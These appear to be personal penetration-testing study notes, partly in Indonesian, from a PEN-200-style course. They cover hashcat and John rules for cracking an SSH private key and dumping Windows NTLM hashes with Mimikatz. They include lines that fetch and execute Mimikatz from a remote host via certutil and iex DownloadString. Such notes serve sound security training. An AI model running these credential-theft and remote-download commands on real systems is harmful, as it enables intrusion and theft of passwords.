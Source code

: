 ```demo.rule (HARUS PERKARAKTER, GK BOLEH KYK $123!)
$1 $2 $3 c $!
```
ex word: password
> Password1!
> Password2!
> Password123!

32. Cracking id_rsa (privatekey)
```cmd
ssh2john id_rsa > ssh.hash

hashcat -h | grep -i "ssh"
```
(Liat tipenya yg mana)
```cmd
hashcat -m 22921 ssh.hash ssh.passwords -r custom_rule_sesuai_sikon.rule --force
```
Kalo error, kyk gini:
Hashfile 'ssh.hash' on line 1 ($sshng...cfeadfb412288b183df308632$16$486): Token length exception

Pake john aja. Rulenya gmn? UPDATE, tambahin ini [List.Rules:sshRules], c/o:

```sshrule.txt
[List.Rules:sshRules]
c $1 $3 $7 $!
c $1 $3 $7 $@
c $1 $3 $7 $#
```
```cmd
sudo sh -c 'cat ssh.rule >> /etc/john/john.conf'

john --wordlist=ssh.passwords --rules=sshRules ssh.hash
```
33. Mau redirect output ke file yang punya root privileges
```bash
sudo sh -c 'cat /home/nox/Documents/PEN-200/password_attacks/ssh_private_key/vm1/vm1.rule >> /etc/john/john.conf'
```

# WINDOWS: MIMIKATZ, NTLM, HASHES, AND IMPACKET

We can only extract passwords if we are running Mimikatz as Administrator (or higher) and have the SeDebugPrivilege10 access right enabled.

We can also elevate our privileges to the SYSTEM account with tools like *PsExec* or the built-in Mimikatz *token elevation function* to obtain the required privileges. The token elevation function requires the *SeImpersonatePrivilege*

1. Get user in the system
```cmd
Get-LocalUser
```
2. Mimikatz Dump NTLM
```cmd
PS C:\tools> .\mimikatz.exe

mimikatz # privilege::debug 	(cek udah ok apa belom)
mimikatz # token::elevate 		(naik jadi nt)
mimikatz # lsadump::sam 		(dump ntlm hash)

or
iwr http://192.168.45.168:8000/mimikatz.exe -outfile mimikatz.exe
certutil -urlcache -f http://192.168.45.168:8000/mimikatz.exe mimikatz.exe

. .\Invoke-Mimikatz.ps1
iex (New-Object Net.WebClient).DownloadString('http://192.168.45.168:8000/Invoke-Mimikatz.ps1')

```